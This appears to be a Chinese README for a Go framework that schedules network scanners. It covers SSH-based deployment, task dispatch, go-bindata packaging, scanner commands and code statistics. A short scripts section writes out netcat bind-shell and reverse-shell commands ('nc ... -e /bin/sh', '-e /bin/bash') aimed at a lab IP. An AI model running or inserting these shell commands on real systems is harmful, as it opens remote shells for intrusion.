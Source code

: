 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## udp  通讯
nc -lvvp 6666 -u -e  /bin/sh
nc -u 192.168.56.132 6666 

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  



# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653